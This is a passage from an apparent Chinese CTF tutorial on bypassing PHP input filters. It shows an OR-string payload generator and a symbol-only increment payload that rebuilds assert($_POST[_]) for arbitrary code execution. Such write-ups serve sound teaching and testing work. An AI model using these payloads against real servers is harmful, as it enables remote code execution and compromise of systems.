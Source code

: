or.py

```
import requests
import urllib
from sys import *
import os

os.system("php rce_or.php")  

def action(arg):
    s1 = ""
    s2 = ""
    for i in arg:
        f = open("or.txt", "r")
        while True:
            t = f.readline()
            if t == "":
                break
            if t[0] == i:
                
                s1 += t[2:5]
                s2 += t[6:9]
                break
        f.close()
    output = "(\"" + s1 + "\"|\"" + s2 + "\")"
    return (output)

while True:
    param = action(input("\n[+] your function：")) + action(input("[+] your command："))

    print(param)
```

##### 自增绕过

通过php的自增特性，构造出恶意字符串assert($_POST[\_]);，进而实现任意代码执行

何为自增？

![](https://cdn.nlark.com/yuque/0/2025/png/33715413/1755831398580-12aa83a3-abaa-4bd6-a951-d3e61d92d030.png)

我们可以发现，A在进行++操作之后变成了B，规律遵循ascii码表，详见开头。以下为构造脚本

```
$_=[];$_=@"$_";$_=$_['!'=='@'];$___=$_;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$____='_';$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$_=$$____;$___($_[_]);
固定格式 构造出来的 assert($_POST[_]);
然后post传入   _=phpinfo();
```
